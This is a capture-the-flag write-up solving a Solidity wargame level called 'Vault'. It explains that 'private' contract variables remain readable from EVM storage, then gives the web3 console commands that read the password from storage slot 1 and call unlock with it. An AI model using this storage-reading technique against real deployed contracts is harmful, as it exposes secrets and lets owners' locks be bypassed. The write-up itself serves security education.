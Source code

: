 # Vault

>Unlock the vault to pass the level!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

On analyizing the above contract, we observe that our goal is to call the function unlock with the right password as argument so that the boolean variable is set to false.
But this password variable is declared as `private`.

```solidity
 bytes32 private password;
```

State variables in solidity have three possible visibility modifiers i.e. `public`, `internal` or `private`.
private variables are only accessible within the contract in which they were declared. Calling them is thus, also not possible.

So,

What can we do to be able to read this private variable?

When a contract is deployed, the Ethereum Virtual Machine (EVM) allocates a specific amount of storage to the contract based on its size. Storage is divided into slots, each of which can store 256 bits (32 bytes) of data.
This contract storage consists of all the variables declared inside the contract irrespective of their visibility(`public` or `private`).

The web3 js library provides the function `web3.eth.getStorageAt(contract-address, storage-slot)` to serve this purpose.

Analyzing the contract storage, (I am using the browser console for this.)

```javascript
await web3.eth.getStorageAt("0x6D677CBBD80856656CD2A8e9C889E41fc8Eb421B", 0)
```
we get

```
'0x0000000000000000000000000000000000000000000000000000000000000001'
```
which corresponds to the locked variable `bool public locked` which is currently set to `true`. Now accessing the value of the variable password stored at slot 1.

```javascript
await web3.eth.getStorageAt("0x6D677CBBD80856656CD2A8e9C889E41fc8Eb421B", 1)
```
we get the value of the password variable.

Now, we call the function `unlock` with this value,

```javascript
await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')
```

After confirming that the value of locked is now set to `false`, we can submit the instance.
